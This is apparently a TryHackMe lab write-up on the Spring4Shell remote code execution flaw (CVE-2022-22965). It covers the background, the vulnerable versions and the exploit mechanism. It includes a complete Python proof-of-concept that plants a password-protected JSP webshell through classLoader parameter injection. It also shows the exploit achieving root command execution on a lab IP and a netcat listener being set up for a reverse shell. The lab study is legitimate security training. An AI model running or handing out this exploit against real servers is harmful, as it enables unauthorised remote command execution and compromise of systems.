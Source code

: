 ```yaml
---
description: Exploiting the Java Spring Framework - https://tryhackme.com/room/spring4shell
---
```


# Spring4Shell: CVE-2022-22965

![](<../../../.gitbook/assets/image (26) (1) (1) (1).png>)

## Background

In late March 2022, two remote command execution vulnerabilities in the Java [Spring framework](https://spring.io/) were made public. The first of these vulnerabilities affects a component of the framework called "Spring Cloud Functions". The second, arguably more serious vulnerability, affects a component in  "Spring Core" —  the heart of the framework — thus significantly increasing the vulnerability's potential impact and earning it the name "Spring4Shell" (a play on [Log4Shell](https://tryhackme.com/room/solar), the name of a brutal vulnerability disclosed at the end of 2021).

Spring4Shell was originally released as an 0-day in a now-deleted thread of Tweets. It was quickly identified as a bypass of the patch for [CVE-2010-1622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1622) — a vulnerability in earlier versions of the Spring Framework which allowed attackers to obtain remote command execution by abusing the way in which Spring handles data sent in HTTP requests. In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution.\


## How does it work?

To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (**M**odel-**V**iew-**C**ontroller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution.

Spring4Shell works along similar lines, bypassing the mitigations that were added to patch CVE-2010-1622. The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious `.jsp` file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a `.php` extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.\


Fortunately, despite how commonly used the Spring Framework is, the conditions in which the vulnerability can be exploited are actually fairly limited.\


## Limitations

The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the **J**ava **D**evelopment **K**it (JDK) greater than or equal to 9. The publicly available exploits currently available only work on applications deployed to Apache Tomcat as WARs; however, the Spring Framework maintainers have stated that they believe there may be other ways to exploit the vulnerability.

Current conditions for vulnerability (as stated in [Spring's announcement of the vulnerability](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)) can be summarised as follows:

* JDK 9+
* A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)\

* Apache Tomcat as a server for the Spring application, packaged as a WAR
* A dependency on the `spring-webmvc` and/or `spring-webflux` components of the Spring Framework\


It is worth noting, however, that these may change over time as other ways to exploit the vulnerability are discovered.

## Exploitation

{% hint style="danger" %}
You should _always_ review unknown exploits before running them.
{% endhint %}

Using this Proof of Concept Python Script:

{% code title="exploit.py" %}
```python
import requests
import argparse
from urllib.parse import urljoin

def exploit(url, filename, password, directory):
    headers = {"suffix":"%><!--//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"
    }

    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{password}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/{directory}&class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="


    try:
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, f"{filename}.jsp")
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Shell Uploaded Successfully!\nYour shell can be found at: {shellurl}?pwd={password}&cmd=whoami")
        else:
            print("Exploit failed to upload")
    except Exception as e:
        print(e)
        pass




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Spring4Shell RCE Proof of Concept')
    parser.add_argument('url', help='Target URL')
    parser.add_argument("-f","--filename", help="Name of the file to upload (Default tomcatwar.jsp)", default="tomcatwar.jsp")
    parser.add_argument("-p","--password", help="Password to protect the shell with (Default: thm)", default="thm")
    parser.add_argument("-d","--directory", help="The upload path for the file (Default: ROOT)", default="ROOT")
    args = parser.parse_args()
    exploit(args.url, args.filename.split(".")[0], args.password, args.directory)
```
{% endcode %}

We can attack a vulnerable web server

![](<../../../.gitbook/assets/image (12) (1).png>)

Lets look at the source code `ctrl + u`

```html
<!DOCTYPE HTML>
<html>
    <head> 
        <title>Vulnerable</title>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <script src="/assets/js/font-awesome.js"></script>
        <link rel="icon" type="image/png" href="/assets/favicon.png" />
        <link href="/assets/css/styles.css" rel="stylesheet" />
    </head>
    <body>
        <!-- Masthead-->
        <div class="masthead">
            <div class="masthead-content text-white">
                <div class="container-fluid px-4 px-lg-0">
                    <h1 class="fst-italic lh-1 mb-4">Our Website is Coming Soon</h1>
                    <p class="mb-5">We're working hard to finish the development of this site. Sign up below to receive updates and to be notified when we launch!</p>
                    <form id="contactForm" action="/" method="post">
                        <!-- Email address input-->
                        <div class="row input-group-newsletter">
                            <div class="col"><input class="form-control" required type="email" placeholder="Enter email address..." aria-label="Enter email address..." id="email" name="email" value="" /></div>
                            <div class="col-auto"><button class="btn btn-primary" id="submitButton" type="submit">Notify Me!</button></div>
                        </div>
                    </form>
                </div>
            </div>
        </div>
        <div class="social-icons">
            <div class="d-flex flex-row flex-lg-column justify-content-center align-items-center h-100 mt-3 mt-lg-0">
                <a class="btn btn-dark m-3" target="_blank" href="https://twitter.com/MuirlandOracle"><i class="fab fa-twitter"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://github.com/MuirlandOracle"><i class="fab fa-github"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://www.linkedin.com/in/agcyber/"><i class="fab fa-linkedin"></i></a>
            </div>
        </div>
        <!-- Bootstrap core JS-->
        <script src="/assets/js/bootstrap.bundle.min.js"></script>
    </body>
</html>
```

Specifically we are looking for the "action" of the contact form (the only POST request available to us). This is found on line 18:

`<form id="contactForm" action="/" method="post">`

The action is "`/`", meaning that our target URL will simply be: `http://10.10.151.162/`.

{% hint style="info" %}
_**Note:** the trailing slash is very important here!_
{% endhint %}

## Attack

Lets check the script inputs real quick

![](<../../../.gitbook/assets/image (15) (1) (1) (1).png>)

Looks like running `./exploit.py` [`http://10.10.151.162/`](http://10.10.151.162/) should just work

![](<../../../.gitbook/assets/image (6) (1) (1).png>)

And it looks like we have command execution!

![](<../../../.gitbook/assets/image (25) (1) (1).png>)

We are definately root!

![](<../../../.gitbook/assets/image (7) (1).png>)

Lets get a real shell now so we want to get burpsuite open and prepare our shell on our attackbox

On our attack box I am running `nc -lvnp 9001`

![](<../../../.gitbook/assets/image (9) (1).png>)

Time to capture the id request in burp

First enable burp in foxy proxy

![](<../../../.gitbook/assets/image (2) (1).png>)

Then we want to send the request we captured in burp to repeater

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

After a few tries I found the box has python3

![](<../../../.gitbook/assets/image (11) (1) (1).png>)

On our web shell we are going to run a python reverse shell from Pentestmonkey

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

At this point I was having issues with bad characters and getting a reverse/bind shell working. I am not sure if it was a limitation of the environment but I plan on revisiting this.
